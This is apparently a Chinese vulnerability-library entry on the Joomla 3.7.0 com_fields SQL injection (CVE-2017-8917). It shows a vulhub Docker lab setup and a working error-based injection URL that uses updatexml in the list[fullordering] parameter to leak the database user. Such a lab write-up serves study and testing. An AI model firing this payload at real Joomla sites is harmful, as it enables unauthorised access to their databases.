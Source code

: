 ```yaml
---
title: 'Joomla 3.7.0  SQL注入漏洞CVE-2017-8917'
date: Tue, 06 Oct 2020 07:22:58 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 简介

漏洞是由此Joomla 3.7.0 版本中引入的新组件（com\_fields）带来的

#### 环境搭建

cd /root/vulhub/joomla/CVE-2017-8917 docker-compose up -d ![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200619122952854.png) 启动后访问http://your-ip:8080即可看到Joomla的安装界面 按照顺序安装即可 安装完成后，访问http://your-ip:8080/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml(0x23,concat(1,user()),1)，即可看到报错信息： ![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200619123002609.png)